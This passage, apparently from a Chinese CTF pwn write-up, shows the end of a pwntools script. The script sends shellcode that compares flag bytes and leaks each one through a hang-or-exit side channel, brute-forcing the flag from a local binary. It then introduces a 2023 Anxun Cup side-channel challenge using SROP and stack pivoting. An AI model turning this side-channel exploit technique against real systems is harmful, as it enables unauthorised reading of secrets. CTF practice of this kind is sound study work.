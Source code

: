 ```plain
        syscall
        mov dl, byte ptr [rsi+{}]
        mov cl, {}
        cmp cl,dl
        jz loop
        mov al,60
        syscall
        loop:
        jmp loop
        '''.format(dis,char))
    p.send(shellcode)

flag = ""

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

## 2023 安洵杯 side\_channel ,initiate!

### 思路

这个题目同样也是侧信道爆破，不过里面涉及 srop 和栈迁移的知识  
[![](assets/1703640353-a4f099b3dde257e68236db293177ce1c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225191845-5e652152-a317-1.png)
